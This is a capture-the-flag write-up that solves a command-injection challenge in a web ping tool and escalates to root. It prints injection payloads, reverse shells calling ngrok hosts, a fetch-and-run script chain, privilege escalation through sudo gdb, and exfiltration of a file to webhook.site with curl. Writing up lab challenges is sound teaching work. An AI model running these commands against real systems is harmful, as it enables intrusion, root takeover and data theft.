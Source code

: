 # Pong (root flag) (500p)
## Challenge Description  

<em> If you successfully uncovered the hidden vulnerability in the web-based ping tool and retrieved the initial flag, your mission isn't over yet. The evil AI Wintermute has left decoy flags and removed the root-flag to mislead you. Your next objective is to find the root flag and finally defeat Wintermute to save the summer.

Author: Mikael Svall
https://ping.appsec.nu/ </em>

## Thought Process
1. Initially I tried getting a reverse shell directly in the input, with commands like:
	- `|nc${IFS}-e${IFS}/bin/sh${IFS}2.tcp.eu.ngrok.io${IFS}15137`
	- `|bash${IFS}-c${IFS}"bash${IFS}-i${IFS}>&${IFS}/dev/tcp/2.tcp.eu.ngrok.io/15137${IFS}0>&1"`
None of my attempts worked however so I had to figure out another way.
2. It's important to check which binaries even exist on the server, that way you don't try in vain to make a solution work which would never work to begin with. For this I used `|which${IFS}*program_name*`. `nc` for example doesn't exist, so any reverse shells based on this binary would never work. Crucial to my progress was finding out that both `python` and `curl` exists.

## Solution
### Ngrok
"Ngrok is a cross-platform application that creates secure tunnels (paths) to localhost machine. It enables developers to expose a local development server to the Internet with minimal effort. The software makes your locally-hosted web server (like computer, laptop, rasbery PI) appear to be hosted on a subdomain of ngrok.com, meaning that no public IP or domain name on the local machine is needed."

I have configured my ngrok client to do the following:
```
Forwarding                    https://0246-194-0-227-191.ngrok-free.app -> http://localhost:8000 
Forwarding                    tcp://2.tcp.eu.ngrok.io:17271 -> localhost:4545
```
- The first line means that when I serve http on localhost port 8000, for example with `python -m http.server 8000`, that content is also publicly accessible through `https://0246-194-0-227-191.ngrok-free.app`.
- The second line means that when I listen for incoming TCP connections on localhost port 4545, for example with `nc -lvp 4545`, I am also listening on tcp address `2.tcp.eu.ngrok.io` on port `17271`.
This comes in handy for solving the challenge!  

I bet it's easier to solve this challenge if you use the listener given to you through the Listener challenge, as that machine is presumably in the same network as the Ping server, meaning you can forget about all the port forwarding.

### Solution Steps
1. Create a file with your python reverse shell on your local machine. I name it `dependencies.sh`, and it contains the following code (it's probably still there on the server):
	```bash
	export RHOST="0.tcp.eu.ngrok.io";export RPORT=11786;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
	```
`RHOST` is my publicly accessible tcp address while `RPORT` is the associated port. I have configured Ngrok so these map to address `127.0.0.1` and port `4545` respectively.
2. Serve your `dependencies.sh` file on your local machine, in my case `python -m http.server 8000`. Now we can upload the file to the server: `|curl${IFS}https://13bb-194-0-227-191.ngrok-free.app/dependencies.sh${IFS}--output${IFS}dependencies.sh`.
3. I verify that it exists on the server and then set execute permissions on it: `|chmod${IFS}+x${IFS}dependencies.sh`
4. I start my listener on my machine to catch the reverse shell: `nc -lvp 4545`
5. I execute the script on the server: `|bash${IFS}dependencies.sh`
6. Boom, we're in. Now time for privilege escalation. The first thing you should probably do is check if any users are allowed to run programs as another user, preferrably root. Check with `sudo -l`. We see that we can run `gdb` as root. We immediately head over to [gtfobins](https://gtfobins.github.io/#) to check if we can do any shennanigans with the `gdb` binary.
7. We can indeed use `gdb` to get root, as gtfobins suggests: `sudo gdb -nx -ex '!sh' -ex quit`
8. We head over to `/root` and see a `flag.txt`, but this flag has been compromised. We also see a `root.zip`, perhaps this contains the flag? We try `unzip root.zip` but this binary does not exists on the server. Let's just transfer it to our machine and unzip it there. We send it to our webhook proxy: `curl -F data=@root.zip https://webhook.site/4584b408-34fa-4386-908a-23864e23c647`. We can then download it from webhook to our machine.
9. Turns out the .zip file is password protected, let's use a wordlist attack with rockyou.txt: `fcrackzip root.zip -u -D -p rockyou.txt`. You could also run `zip2john` on the file and use `john` to crack it. In this file lies the flag! 
